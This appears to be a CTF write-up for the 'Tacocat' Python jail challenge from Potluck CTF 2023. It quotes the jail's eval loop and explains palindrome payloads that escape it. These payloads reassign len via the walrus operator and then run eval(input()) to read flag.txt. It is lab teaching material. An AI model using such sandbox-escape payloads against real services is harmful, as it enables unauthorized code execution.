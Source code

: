 ```yaml
---
title: Tacocat
date: 2024-01-05T22:50:30+01:00
description: Writeup for Tacocat [37c3 Potluckctf 2023]
author: zenbassi
tags:
- misc
- python escape
draft: false
---
```

___

## Challenge Description

This is an upsolve, so I don't really remember, but it went something like _We
had no good ideas but we figured a python escape is always welcome_.

## Intuition

The code for the jail is given to us and albeit, very short:

```python
while True:
    x = input("palindrome? ")
    assert "#" not in x, "comments are bad"
    assert all(ord(i) < 128 for i in x), "ascii only kthx"
    assert x == x[::-1], "not a palindrome"
    assert len(x) < 36, "palindromes can't be more than 35 characters long, this is a well known fact."
    assert sum(x.encode()) % 256 == 69, "not nice!"
    eval(x)
```

So, we're free to give a string to `eval`, which will _evaluate_ any valid python expression.
This can give us the flag, or a shell, but the catch is that:
* the input must be a palindrome
* we cannot use comments
* sum of ASCII values for each character in the input has to be equal to 69 (modulo 256)

I had multiple ideas, including using string formatting to insert comments,
using tuples which are evaluated element by element and to use triple quotes
strings as a form of comment. Sadly I had no success with any of them, but I'm
happy to see that some of my ideas were in a solution by `pspaul @
[FluxFingers](https://fluxfingers.net/)`, which I we will discuss below.

## Solution

The solution consists of multiple inputs formatted as such:

```
      +------------------------------------------------------+
      |                                                      |
      |              +-----------------------+               |
      |              |                       |               |
      v              v                       v               v
'''{buffer}',{reverse(expression)},''',{expression},'{reverse(buffer)}'''
|                                    | |       ^  | |                 | ^
|          this is a string          | |       |  | | this is a char  | |
+------------------------------------+ +-------+--+ +-------------^---+ |
                                               |                  |     |
     this is the evaluated expression ---------+                  |     |
                                                                  |     |
                   this is used to reach the desired sum ---------+     |
                                                                        |
                                                                        |
                                                                        |
                                                         empty string --+

eg. which would print 42 when evaluated:

eval("'''?',))24(tnirp(,''',(print(42)),'?'''")

This is a bit too long to be valid, but you get the point :P
```

Looking at it, this is a very neat way of abusing the greedy way in which
strings are evaluated in python - from left to right.

Now, the length restriction is problematic. We can bypass it if we assign
to `len` another function that processes a string or a list and returns a
values smaller than 36. Such functions are `all` or `any`. To achieve the
substitution we can utilise the `walrus operator` introduced in python 3.8 [^1].
The following two lines bypass the length check:

```python
'''k',)yna=:y(,''',(y:=any),'k'''
'''t',)y=:nel(,''',(len:=y),'t'''
```

Lastly we can just read the flag with:

```python
'''{}',))(tupni(lave,''',eval(input()),'{}'''
```

and then supplying something such as:

```python
print(open("flag.txt").read())
```

### Flag

`POTLUCK{1_@c7u@11y_do_n07_kn0w_th3_f1@g}`

## References

[^1]: https://docs.python.org/3/whatsnew/3.8.html
